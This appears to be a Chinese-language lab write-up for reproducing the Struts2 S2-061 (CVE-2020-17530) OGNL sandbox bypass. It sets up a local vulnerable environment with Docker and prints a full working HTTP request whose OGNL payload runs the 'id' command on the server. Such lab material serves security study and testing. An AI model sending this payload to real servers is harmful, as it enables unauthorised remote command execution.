

# Struts2 S2-061 远程命令执行漏洞（CVE-2020-17530）

S2-061是对S2-059的绕过，Struts2官方对S2-059的修复方式是加强OGNL表达式沙盒，而S2-061绕过了该沙盒。该漏洞影响版本范围是Struts 2.0.0到Struts 2.5.25。

参考链接：

- https://cwiki.apache.org/confluence/display/WW/S2-061
- https://github.com/ka1n4t/CVE-2020-17530
- https://www.anquanke.com/post/id/225252
- https://mp.weixin.qq.com/s/RD2HTMn-jFxDIs4-X95u6g

## 漏洞环境

执行如下命令启动一个Struts2 2.5.25版本环境：

```
docker-compose up -d
```

环境启动后，访问`http://target-ip:8080/index.action`查看到首页。

## 漏洞复现

发送如下数据包，即可执行`id`命令：

```
POST /index.action HTTP/1.1
Host: localhost:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/80.0.3987.132 Safari/537.36
Connection: close
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryl7d1B1aGsV2wcZwF
Content-Length: 829

------WebKitFormBoundaryl7d1B1aGsV2wcZwF
Content-Disposition: form-data; name="id"

%{(#instancemanager=#application["org.apache.tomcat.InstanceManager"]).(#stack=#attr["com.opensymphony.xwork2.util.ValueStack.ValueStack"]).(#bean=#instancemanager.newInstance("org.apache.commons.collections.BeanMap")).(#bean.setBean(#stack)).(#context=#bean.get("context")).(#bean.setBean(#context)).(#macc=#bean.get("memberAccess")).(#bean.setBean(#macc)).(#emptyset=#instancemanager.newInstance("java.util.HashSet")).(#bean.put("excludedClasses",#emptyset)).(#bean.put("excludedPackageNames",#emptyset)).(#arglist=#instancemanager.newInstance("java.util.ArrayList")).(#arglist.add("id")).(#execute=#instancemanager.newInstance("freemarker.template.utility.Execute")).(#execute.exec(#arglist))}
------WebKitFormBoundaryl7d1B1aGsV2wcZwF--
```

可见，`id`命令返回结果将直接显示在页面中：


